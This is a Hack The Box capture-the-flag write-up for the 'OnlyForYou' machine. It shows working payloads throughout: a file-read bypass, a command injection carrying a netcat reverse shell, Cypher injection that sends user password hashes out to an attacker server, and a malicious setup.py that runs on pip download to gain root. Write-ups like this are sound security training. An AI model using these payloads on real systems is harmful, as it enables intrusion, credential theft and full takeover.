

# OnlyForYou HTB

## Overview

---

> OnlyForYou is a Medium Linux box that requires source code analysis. The vhost has a file read vulnerability caused by the `os.path.join()` function, enabling access to the source code of another virtual host. This, in turn, exposes a command injection vulnerability by bypassing the regex. Additionally, an internal site is susceptible to cipher injection, which allows exfiltrating user hashes. Root escalation involves exploiting pip download using a malicious Python package

---

## Enumeration

---

### Open Ports

Found two open ports with nmap:

-   port 22 → SSH
-   port 80 → Nginx server

```bash
nmap -p22,80 -sV -sC -T4 -Pn -oA only4you.htb only4you.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-23 20:41 EDT
Nmap scan report for only4you.htb (10.129.77.238)
Host is up (0.058s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e883e0a9fd43df38198aaa35438411ec (RSA)
|   256 83f235229b03860c16cfb3fa9f5acd08 (ECDSA)
|_  256 445f7aa377690a77789b04e09f11db80 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Only4you
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

### port 80 - HTTP

The IP address redirects to the domain, `only4you.htb`, adding that to `/etc/hosts`. Unfortunately, the headers don't offer any additional valuable information.

```bash
> http -ph 10.129.77.238
HTTP/1.1 301 Moved Permanently
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Sat, 24 Jun 2023 00:38:11 GMT
Location: http://only4you.htb/
Server: nginx/1.18.0 (Ubuntu)

> http -ph only4you.htb
HTTP/1.1 200 OK
Connection: keep-alive
Content-Encoding: gzip
Content-Type: text/html; charset=utf-8
Date: Sat, 24 Jun 2023 00:40:56 GMT
Server: nginx/1.18.0 (Ubuntu)
Transfer-Encoding: chunked

```

Nothing substantial on the index page either.


### beta.only4you.htb

Bruteforcing for virtual hosts using `wfuzz`, found `beta.only4you.htb`, adding it to `/etc/hosts`.

```bash
> wfuzz_subdomain_enum only4you.htb --hh 178
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://only4you.htb/
Total requests: 4989

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000033:   200        51 L     145 W      2190 Ch     "beta"

Total time: 0
Processed Requests: 4989
Filtered Requests: 4988
Requests/sec.: 0

```

The newly discovered virtual host provides options to download the source code and manipulate images by resizing and converting them.


Fuzzing the vhost for files and directories did not yield any additional information.

```bash
> ffuf -c -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -u http://beta.only4you.htb/FUZZ -o ffuf_beta.md -of md -t 100
...snip...
...snip...
download                [Status: 405, Size: 683, Words: 161, Lines: 37, Duration: 61ms]
list                    [Status: 200, Size: 5934, Words: 1979, Lines: 134, Duration: 59ms]
source                  [Status: 200, Size: 12127, Words: 42, Lines: 43, Duration: 61ms]
resize                  [Status: 200, Size: 2984, Words: 564, Lines: 69, Duration: 69ms]
convert                 [Status: 200, Size: 2760, Words: 498, Lines: 62, Duration: 63ms]
```

---

## Foothold

---

The `/source` endpoint downloads the source code for the beta site. Based on the structure looks like a flask application.

```bash
> ls -la
.rw-r--r-- 4.4k kali 29 Nov  2022 app.py
drwxr-xr-x    - kali  4 Dec  2022 static
drwxr-xr-x    - kali  1 Nov  2022 templates
.rw-r--r-- 1.7k kali  3 Nov  2022 tool.py
drwxr-xr-x    - kali  1 Nov  2022 uploads
```

### File Read

The download route can potentially be used to read files using the `image` parameter. Although path traversal won't succeed because of input sanitization, the filters can be bypassed with an absolute path due to the presence of `os.path.join`.



@app.route('/download', methods=['POST'])
def download():
    image = request.form['image']
    filename = posixpath.normpath(image)
    if '..' in filename or filename.startswith('../'):
        flash('Hacking detected!', 'danger')
        return redirect('/list')
    if not os.path.isabs(filename):
        filename = os.path.join(app.config['LIST_FOLDER'], filename)
    try:
        if not os.path.isfile(filename):
            flash('Image doesn\'t exist!', 'danger')
            return redirect('/list')
    except (TypeError, ValueError):
        raise BadRequest()
    return send_file(filename, as_attachment=True)



As suspected, its vulnerable to LFI with an absolute path. Querying `/etc/hostname` returns `only4you`.

```bash
> http --form -pb POST beta.only4you.htb/download image='/etc/hostname'
only4you
```

Identified a couple of additional users by examining the `/etc/passwd` file for entries with login shells.

```bash
> http --form -pb POST beta.only4you.htb/download image='/etc/passwd' | grep sh$
root:x:0:0:root:/root:/bin/bash
john:x:1000:1000:john:/home/john:/bin/bash
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
```

Attempted to retrieve the `app.py` from the `only4you.htb` vhost, but it returns a 404. It's possible that the path ( `/var/www/html/app.py` ) is incorrect. The configuration for vhosts is usually present in the `/etc/nginx/sites-enabled/default` file.



> http --form -pb POST beta.only4you.htb/download image='/etc/nginx/sites-enabled/default'

server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
    listen 80;
    server_name only4you.htb;

    location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
    }
}

server {
    listen 80;
    server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}



Given this information, it seems that the root directory for the `only4you.htb` virtual host is `/var/www/only4you.htb/`. Using this the `app.py` file can be retrieved successfully.

### Command Injection

_/var/www/only4you.htb/app.py_



> http --form -pb POST beta.only4you.htb/download image='/var/www/only4you.htb/app.py'
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

        status = sendmessage(email, subject, message, ip)
        if status == 0:
            flash('Something went wrong!', 'danger')
        elif status == 1:
            flash('You are not authorized!', 'danger')
        else:
            flash('Your message was successfuly sent! We will reply as soon as possible.', 'success')
        return redirect('/#contact')
    else:
        return render_template('index.html')

@app.errorhandler(404)
def page_not_found(error):
    return render_template('404.html'), 404

@app.errorhandler(500)
def server_errorerror(error):
    return render_template('500.html'), 500

@app.errorhandler(400)
def bad_request(error):
    return render_template('400.html'), 400

@app.errorhandler(405)
def method_not_allowed(error):
    return render_template('405.html'), 405

if __name__ == '__main__':
    app.run(host='127.0.0.1', port=80, debug=False)



The module imports the `sendmessage()` function from then form module. So retrieved the `form.py` file using LFI vulnerability.



> http --form -pb POST beta.only4you.htb/download image='/var/www/only4you.htb/form.py'
import smtplib, re
from email.message import EmailMessage
from subprocess import PIPE, run
import ipaddress

def issecure(email, ip):
    if not re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email):
        return 0
    else:
        domain = email.split("@", 1)[1]
        result = run([f"dig txt {domain}"], shell=True, stdout=PIPE)
        output = result.stdout.decode('utf-8')
...snip...
...snip...
def sendmessage(email, subject, message, ip):
    status = issecure(email, ip)
    if status == 2:
        msg = EmailMessage()
        msg['From'] = f'{email}'
        msg['To'] = 'info@only4you.htb'
        msg['Subject'] = f'{subject}'
        msg['Message'] = f'{message}'
...snip...
...snip...



The `sendmessage()` function calls the `issecure()` function and provides it with the `email` parameter. Inside `issecure()`, the `email` is compared against a regular expression. If the condition is satisfied, the portion of the email after the `@` symbol is extracted. This extracted part is then utilized to execute the `dig` command using the subprocess library. Interestingly, the absence of an end anchor, `$`, in the regex pattern implies that if the pattern is located within a longer string, it will still be regarded as a match. For instance, with the payload `test@example.com;id`, the regex condition is fulfilled by `test@example.com`. Additionally the semicolon `;` in the payload trigger the execution of the `id` command when the `dig` command is run via subprocess.

```python
>>> import re
>>> email = 'test@example.com;id'
>>> if re.match("([A-Za-z0-9]+[.-_])*[A-Za-z0-9]+@[A-Za-z0-9-]+(\.[A-Z|a-z]{2,})", email): print("Re Bypass!!")
...
Re Bypass!!
>>> domain = email.split("@", 1)[1]
>>> domain
'example.com;id'
>>> print(f"dig txt {domain}")
dig txt example.com;id
```

Confirmed successful command injection using the ping command.

```bash
> http --form -pb POST only4you.htb \
> email='test@example.com;ping -c 3 10.10.14.16' subject='subject' message='message'
```

```bash
> _ tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
22:10:46.349602 IP only4you.htb > 10.10.14.16: ICMP echo request, id 1, seq 1, length 64
22:10:46.349706 IP 10.10.14.16 > only4you.htb: ICMP echo reply, id 1, seq 1, length 64
22:10:47.348878 IP only4you.htb > 10.10.14.16: ICMP echo request, id 1, seq 2, length 64
22:10:47.348893 IP 10.10.14.16 > only4you.htb: ICMP echo reply, id 1, seq 2, length 64
22:10:48.348418 IP only4you.htb > 10.10.14.16: ICMP echo request, id 1, seq 3, length 64
22:10:48.348434 IP 10.10.14.16 > only4you.htb: ICMP echo reply, id 1, seq 3, length 64

```

Leveraged the same vulnerability and used a reverse shell payload to get a shell as `www-data`

```bash
> http --form -pb POST only4you.htb \
email='test@example.com;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.16 9005 >/tmp/f' subject='subject' message='message'
```

```bash
> pc -lp 9005
[22:13:15] Welcome to pwncat 🐈!                                                                    __main__.py:164
[22:14:06] received connection from 10.129.77.238:33374                                                  bind.py:84
[22:14:08] 10.129.77.238:33374: registered new host w/ db                                            manager.py:957
(local) pwncat$
(remote) www-data@only4you:/var/www/only4you.htb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@only4you:/var/www/only4you.htb$
```

---

## Shell as john

---

Discovered a few open ports. After enumerating them (using netcat and curl ):

-   Port 3000 appears to be for Gogs, a git service.
-   Port 8001 seems to host a Gunicorn application.
-   Port 7474 and 7687 are likely associated with Neo4j.

```bash
(remote) www-data@only4you:/var/www/only4you.htb$ ss -antlp
State         Recv-Q        Send-Q                    Local Address:Port                  Peer Address:Port        Process
LISTEN        0             511                             0.0.0.0:80                         0.0.0.0:*            users:(("nginx",pid=1041,fd=6),("nginx",pid=1040,fd=6))
LISTEN        0             4096                      127.0.0.53%lo:53                         0.0.0.0:*
LISTEN        0             128                             0.0.0.0:22                         0.0.0.0:*
LISTEN        0             4096                          127.0.0.1:3000                       0.0.0.0:*
LISTEN        0             2048                          127.0.0.1:8001                       0.0.0.0:*
LISTEN        0             70                            127.0.0.1:33060                      0.0.0.0:*
LISTEN        0             151                           127.0.0.1:3306                       0.0.0.0:*
LISTEN        0             50                   [::ffff:127.0.0.1]:7474                             *:*
LISTEN        0             128                                [::]:22                            [::]:*
LISTEN        0             4096                 [::ffff:127.0.0.1]:7687                             *:*
```

To access these ports remotely, used chisel for port forwarding.

_Start a reverse listener on port 1080 on the attack box_

```bash
> ./chisel_1.8.1_linux_amd64 server --reverse -p 1080
2023/06/23 22:26:39 server: Reverse tunnelling enabled
2023/06/23 22:26:39 server: Fingerprint udkvbRfz2hUuuPspcbn5uOvvLVclhqVinmVsrLArhQA=
2023/06/23 22:26:39 server: Listening on http://0.0.0.0:1080
2023/06/23 22:41:52 server: session#4: tun: proxy#R:3000=>3000: Listening
2023/06/23 22:41:52 server: session#4: tun: proxy#R:8001=>8001: Listening
2023/06/23 22:41:52 server: session#4: tun: proxy#R:7474=>7474: Listening
2023/06/23 22:41:52 server: session#4: tun: proxy#R:7687=>7687: Listening

```

_Connect to the attack box and port forward_

```bash
(remote) www-data@only4you:/tmp$ ./chisel client 10.10.14.16:1080 \
> R:3000:127.0.0.1:3000 \
> R:8001:127.0.0.1:8001 \
> R:7474:127.0.0.1:7474 \
> R:7687:127.0.0.1:7687

```

### Cypher Injection

The Gunicorn application on port 8001 requires credentials. Strangely, using `admin:admin` credentials allowed access and led to a dashboard.




Taking into account the earlier information about port 7687 and this new finding, it appears that the application is utilizing a Neo4j database.


There's a search field in the employee tab which could to be querying a database. Given that the database is Neo4j, it's possible that this could be a case of [cypher injection](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#get-labels). Cypher is the query language for the Neo4j database


Using this payload for cypher injection exfiltrated the neo4j version using `LOAD CSV FROM <URL>`,

```info
test' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.16/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

The HTTP server's response indicates that the version is 5.6.

```bash
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.77.238 - - [24/Jun/2023 12:56:26] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.129.77.238 - - [24/Jun/2023 12:56:26] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

Extracting the labels using the payload,

```info
'OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.16/?label='+label as l RETURN 0 as _0 //
```

```bash
10.129.77.238 - - [24/Jun/2023 13:04:07] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:07] "GET /?label=employee HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:07] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:07] "GET /?label=employee HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=employee HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=employee HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=user HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 13:04:08] "GET /?label=employee HTTP/1.1" 200 -
```

The labels can be further explored using this payload.

```bash
' OR 1=1 WITH 1 as a MATCH (f:<label>) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.2.4:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

The `user` label might contain valuable data, which can be extracted using this payload,

```bash
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.0.2.4:8000/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

This returns username and password hashes for two users: `admin` and `john`.

```bash
10.129.77.238 - - [24/Jun/2023 16:42:02] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 16:42:02] "GET /?username=admin HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 16:42:02] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.129.77.238 - - [24/Jun/2023 16:42:02] "GET /?username=john HTTP/1.1" 200 -
```

The hashes can be cracked using John the Ripper.

```bash
> john hashes.txt --format=Raw-SHA256 --show
admin:admin
john:ThisIs4You
```

Based on `/etc/passwd`, there's a local user named John. Checking for password reuse, the same credentials are valid for John's local account as well.

```bash
(remote) www-data@only4you:/tmp$ su john
Password:
john@only4you:/tmp$ id
uid=1000(john) gid=1000(john) groups=1000(john)
```

---

## Privilege Escalation to root

---

John can execute a specific `pip3` command as root on localhost, port 3000.

```bash
(remote) john@only4you:/home/john$ sudo -l
Matching Defaults entries for john on only4you:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on only4you:
    (root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz
```

The `pip3 download` command is used to fetch Python projects from version control systems. In this context, John can use it to download a tar archive from the Gogs git service.

```bash
(remote) john@only4you:/home/john$ pip3 help download
Loading KWallet
Loading SecretService
Loading Windows
Loading chainer
Loading macOS

Usage:
  pip3 download [options] <requirement specifier> [package-index-options] ...
  pip3 download [options] -r <requirements file> [package-index-options] ...
  pip3 download [options] <vcs project url> ...
  pip3 download [options] <local project path> ...
  pip3 download [options] <archive url/path> ...

Description:
  Download packages from:

  - PyPI (and other indexes) using requirement specifiers.
  - VCS project urls.
  - Local project directories.
  - Local or remote source archives.

```

The Gogs server has an user named `john`. Logged into Gogs as John with the credentials from Neo4j. Additionally, John owns a private repository called Test.


Found an exploit for `pip3 download` → [Malicious Python Packages and Code Execution via pip download · Embrace The Red](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)

### Malicious python package

Creating a python package with this structure

```bash
.
├── setup.py
└── src
    ├── __init__.py
    └── main.py
```

-   **main.py**: It can hold any arbitrary content.
-   **setup.py**: It should have two key components:
    -   **RunCommand()**: This function will contain the actual payload
    -   **RunEggInfoCommand()**: This will execute the payload by using `cmdclass={"install": RunInstallCommand, "egg_info": RunEggInfoCommand}`



> cat src/main.py
print("Root privilege escalation")


> cat setup.py
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os


def RunCommand():
    os.system("chmod u+s /bin/bash")


class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)


setup(
    name="pipDownloadExploit",
    version="0.0.1",
    license="MIT",
    packages=find_packages(),
    cmdclass={"install": RunInstallCommand, "egg_info": RunEggInfoCommand},
)



Installing required modules in a virtual environment to build the package.

```bash
pip3 install setuptools build
python3 -m build
```

Building the package will generate a `./dist` directory containing a wheel file and an archive.

```bash
.
├── dist
│   ├── pipDownloadExploit-0.0.1-py3-none-any.whl
│   └── pipDownloadExploit-0.0.1.tar.gz
├── pipDownloadExploit.egg-info
│   ├── dependency_links.txt
│   ├── PKG-INFO
│   ├── SOURCES.txt
│   └── top_level.txt
├── setup.py
├── src
│   ├── __init__.py
│   └── main.py
└── venv
    ├── bin
    ├── include
    ├── lib
    ├── lib64 -> lib
    └── pyvenv.cfg
```

The archive can be uploaded to the Test repository using the Gogs UI.


However the visibility for the repository needs to be to set to Public, otherwise will result in a 404 error.


Since `pip download` expects a package archive, using the link to the raw file on the repository.

```bash
(remote) john@only4you:/home/john$ sudo pip3 download http://127.0.0.1:3000/john/Test/raw/master/pipDownloadExploit-0.0.1.tar.gz
Collecting http://127.0.0.1:3000/john/Test/raw/master/pipDownloadExploit-0.0.1.tar.gz
  Downloading http://127.0.0.1:3000/john/Test/raw/master/pipDownloadExploit-0.0.1.tar.gz (1.0 kB)
  Saved ./pipDownloadExploit-0.0.1.tar.gz
Successfully downloaded pipDownloadExploit
(remote) john@only4you:/home/john$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
(remote) john@only4you:/home/john$ bash -p
(remote) root@only4you:/home/john# cd /root/
(remote) root@only4you:/root# ls -al root.txt
-rw-r----- 1 root root 33 Jun 24 00:37 root.txt
```

Pwned!!

<!--  -->

---

# Related Links

-   [Restrict path access to prevent path traversal — OpenStack Security Advisories 0.0.1.dev264 documentation](https://security.openstack.org/guidelines/dg_using-file-paths.html)
-   [The Cypher Injection Saga | SideChannel – Tempest](https://www.sidechannel.blog/en/the-cypher-injection-saga/)
-   [Cypher Injection (neo4j) - HackTricks](https://book.hacktricks.xyz/pentesting-web/sql-injection/cypher-injection-neo4j#get-labels)
-   [Fun with Cypher Injections - HackMD](https://hackmd.io/@Chivato/rkAN7Q9NY)
-   [Cypher Injection Cheat Sheet - Pentester Land](https://pentester.land/blog/cypher-injection-cheatsheet/#leak-labels--properties-in-the-database)
-   [Malicious Python Packages and Code Execution via pip download · Embrace The Red](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/)
-   [Automatic Execution of Code Upon Package Download on Python Package Manager | by Yehuda Gelb | checkmarx-security | Medium](https://medium.com/checkmarx-security/automatic-execution-of-code-upon-package-download-on-python-package-manager-cd6ed9e366a8)
-   [Pip Download Code Execution | Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/pip-download-code-execution/)
